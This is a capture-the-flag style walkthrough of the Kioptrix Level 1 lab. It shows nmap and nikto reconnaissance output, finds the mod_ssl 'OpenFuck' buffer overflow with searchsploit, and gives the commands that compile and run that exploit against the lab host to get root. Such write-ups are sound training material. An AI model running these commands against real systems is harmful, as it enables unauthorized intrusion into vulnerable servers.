 
# Kioptrix Level 1
1. We need to find the machine IP on our network:

	* ```ip addr show```
 ``` root@kali:~/Desktop# ip addr show
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:e7:ed:ef brd ff:ff:ff:ff:ff:ff
    inet 192.168.50.9/24 brd 192.168.50.255 scope global dynamic noprefixroute eth0
       valid_lft 81286sec preferred_lft 81286sec
    inet6 fe80::20c:29ff:fee7:edef/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever

```

* 	 * From this output we can see on eth0:inet we have ```192.168.50.9/24```
	 * Map your local network to find the ip of the Vulnhub Machine
	 * ```nmap 192.168.50.9/24```

 ```
Nmap scan report for 192.168.50.207
Host is up (0.000072s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
443/tcp  open  https
1024/tcp open  kdm
MAC Address: 00:0C:29:78:29:0C (VMware)
```


*   * Our Vulnhub Machine is ```192.168.50.207```
2. Lets take a look at the nmap
	* We see some ports open but first we should take a look at the site since port 80 is open
3. Taking a look at the webpage
	* ![Screenshot][K1homepage]
	* From the basic page we know that this is an Apache server running on Red Hat Linux
	* Clicking on any of the links will take you to an error page like so:
	* ![Screenshot][K1errorpage]
	* We now know it is running ```Apache 1.3.20```
4. Checking if Apache 1.3.20 is vulnerable
	* We're going to see whether 1.3.20 has published exploits using searchsploit which searches [Exploit-db](https://www.exploit-db.com/)
	* Run ```searchsploit Apache```
	* Looking around, I couldn't find anything that I could use
	* We will try to see if ```nikto``` a web server scanner, can give us any more information
	* Run ```nikto -h 192.168.50.207```
	* Taking a look back at the ```searchsploit``` results, we can see that there is an exploit for mod_ssl versions
```root@kali:~# nikto -h 192.168.50.207
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.50.207
+ Target Hostname:    192.168.50.207
+ Target Port:        80
+ Start Time:         2018-04-09 12:50:40 (GMT-4)
---------------------------------------------------------------------------
...
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.0.1j). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8345 requests: 0 error(s) and 20 item(s) reported on remote host
+ End Time:           2018-04-09 12:51:00 (GMT-4) (20 seconds)
```

* 	* In our previous ```searchsploit``` there was a mod_ssl exploit which we can leverage since we know now that mod_ssl is on 2.8.4

	* ```Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overf | exploits/unix/remote/21671.c```
	* For other searchsploit's, you can get a copy into your current directory by using mirror
	* ```searchsploit -m exploits/unix/remote/21671.c```
	* There are many resources online on how to update OpenFuck.c, but I chose to use [this](https://github.com/gazcbm/openfuck-2017)
5. Exploiting using OpenFuck.c
	* Using the instructions included in the file:
	* ```gcc -o OpenFuck OpenFuck.c -lcrypto```
	* ```./openfuck 0x6b 192.168.50.207 443 -c 50```

ROOTED!

[K1homepage]: https://www.dropbox.com/s/9192w84xwyus448/K1homepage.png
[K1errorpage]: https://www.dropbox.com/s/5cou9t1rg8r30wd/K1errorpage.png